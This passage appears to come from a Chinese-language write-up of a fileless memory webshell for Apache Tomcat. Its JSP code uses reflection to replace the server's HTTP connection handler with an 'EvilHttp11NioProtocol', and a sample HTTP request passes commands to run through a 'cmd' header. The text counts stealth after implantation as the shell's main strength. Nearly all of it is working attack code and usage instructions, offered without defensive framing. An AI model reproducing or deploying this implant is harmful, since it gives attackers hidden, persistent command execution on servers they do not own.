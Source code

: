 ```plain
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }
%>

<%
    try {
        // oldhttp11NioProtocol = new EvilHttp11NioProtocal();
        // 拿到内部类对象
        // Object obj = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler");
        Object obj = getTheHandler();
        Field field = obj.getClass().getDeclaredField("proto");
        makeSettable(field);

        // 修改
        field.set(obj, new EvilHttp11NioProtocol());
    }catch (Exception e){
        e.printStackTrace();
    }
%>
```

## 使用说明

### 说明

HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器

```plain
GET /Tomcat_demo_war_exploded/Http11NioProtocolMemshell.jsp HTTP/1.1
Host: 192.168.47.1:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
cmd: ikunnotepadikun
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

第一次发送报文注入，下一次访问即可执行上一次的参数。

### 缺点

当前研究进度，此内存马有以下缺点：

*   获得的参数是上一次报文的参数；
*   无法有回显；
*   未在其他 Tomcat 版本测试；

### 优点

*   植入后隐蔽性良好；
